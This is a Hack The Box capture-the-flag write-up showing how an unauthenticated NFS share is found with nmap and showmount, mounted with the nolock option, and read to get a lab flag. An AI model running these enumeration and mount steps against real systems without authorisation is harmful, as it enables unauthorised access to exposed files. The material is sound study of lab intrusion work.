 # [Challenge Name] Write-Up 🕒
> *Hack The Box*  
> *Date Solved: 2025-05-19*  
> *Category: Networking*
> *Tools Used: NFS, mount, nmap*

## Table of Contents
- [Summary](#summary)
- [Reconnaissance & Enumeration](#reconnaissance--enumeration)
- [Exploitation](#exploitation)
- [Takeaways & Lessons Learned](#takeaways--lessons-learned)

---

## Summary
We discovered an unauthenticated NFS export named nfsshare, mounted it with nolock, and pulled down the flag.txt inside—revealing our flag.

---

## Reconnaissance & Enumeration
Port scan & RPC discovery
```bash
sudo nmap -p111 -sV -sC 10.129.42.178

    Port 111/tcp open → rpcbind

    NSE rpcinfo reveals an NFS export (program 100003)
```
List available NFS exports
```bash
showmount -e 10.129.42.178

    Export list for 10.129.42.178:
```

/nfsshare 10.129.0.0/16

- Share name: `/nfsshare`  
- Exported to the internal network  

---

## Exploitation

**Create a mount point**  
```bash
mkdir -p ./target-NFS
```

Mount the NFS share
```bash
sudo mount -t nfs 10.129.42.178:/nfsshare ./target-NFS/ -o nolock
```
 -o nolock avoids locking RPC calls if lockd isn’t available

List and read the flag
```bash
    ls ./target-NFS/
    # flag.txt

    cat ./target-NFS/flag.txt
    # HTB{nfs_exposed_flag_txt}
```

---

## Takeaways & Lessons Learned
An easy CTF but I learned the basics of footprinting NFS services. 

- Always enumerate RPC services with rpcinfo and showmount after finding rpcbind.

- nolock option is useful when the server’s lock daemon isn’t responding.

- Quick wins: mounting NFS shares can yield immediate file access without credentials.